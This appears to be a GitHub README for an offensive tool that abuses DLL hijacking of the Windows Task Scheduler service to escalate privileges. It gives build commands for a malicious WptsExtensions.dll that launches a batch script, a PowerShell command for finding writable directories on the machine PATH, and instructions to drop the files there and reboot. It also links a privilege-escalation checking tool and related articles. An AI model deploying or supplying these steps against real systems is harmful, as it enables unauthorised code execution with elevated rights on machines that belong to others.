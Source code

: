 ## WptsExtensions.dll for exploiting DLL Hijacking (task scheduler)  
  
- Load x64 visual studio environnement variables:  
```
"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat"
```
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot  
  
Tool to use during your privesc:  
[https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)  
  
Articles:  
[https://itm4n.github.io/windows-dll-hijacking-clarified/](https://itm4n.github.io/windows-dll-hijacking-clarified/)  
[http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html](http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html)
